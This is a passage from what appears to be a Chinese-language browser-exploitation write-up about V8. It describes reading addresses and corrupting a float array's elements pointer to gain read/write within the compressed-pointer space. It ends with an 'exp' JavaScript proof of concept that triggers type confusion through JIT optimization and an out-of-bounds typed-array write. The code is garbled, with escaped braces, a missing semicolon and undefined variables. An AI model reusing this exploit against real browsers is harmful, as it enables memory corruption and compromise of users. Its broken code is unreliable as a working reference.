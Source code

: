 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01ab4cd65e9f460216.jpg)

可以发现通过BigUint64Array的external_pointer得到高32位，但是布局一定要构造好，在我构造起初，长度未越界时，BigUint64Array在越界数组下面，等越界数组长度修改成功后，BigUint64Array又跑上面去了，让我摸不到头脑，无奈放弃这种方法，想到另外一种。

**改float array的elements**

elements指向哪，哪就是数组数据存储的位置，相应的，我们更改其指向我们想要的位置，就能直接通过数组，用对应下标进行读写。能这么做的原因是，elements指针本身就是压缩指针，我们只需要知道目标地址的低32位就能利用这点进行读写，不过只能是4g空间内，因为高32位我们这里无法改动。

## exp

```
class classA `{`
    constructor() `{`
        this.val = 0x4242;
        this.x = 0;
        this.a = [1, 2, 3];
    `}`
`}`
class classB `{`
    constructor() `{`
        this.val = 0x4141;
        this.x = 1;
        this.s = "dsa";
    `}`
`}`
var A = new classA();
var B = new classB() function f(arg1, arg2) `{`
    if (arg2 == 41) `{`
        return 5;
    `}`
    var int8arr = new Int8Array(10);
    var z = arg1.x;
    // new arr length
    arg1.val = -1;
    int8arr[1500000000] = 22;
    async
    function f2() `{`
        const nothing = `{``}`;
        while (1) `{`
            if (abc1 | abc2) `{`
                while (nothing) `{`
                    await 1;
                    print(abc3);
                `}`
            `}`
        `}`
    `}`
    f2();
`}`
var i;
// this may optimize and deopt, that's fine
for (i = 0; i &lt; 20000; i++) `{`
    f(A, 0);
    f(B, 0);
`}`
// this will optimize it and it won't deopt
// this loop needs to be less than the previous one
for (i = 0; i &lt; 10000; i++) `{`
    f(A, 41);
    f(B, 41);
`}`
```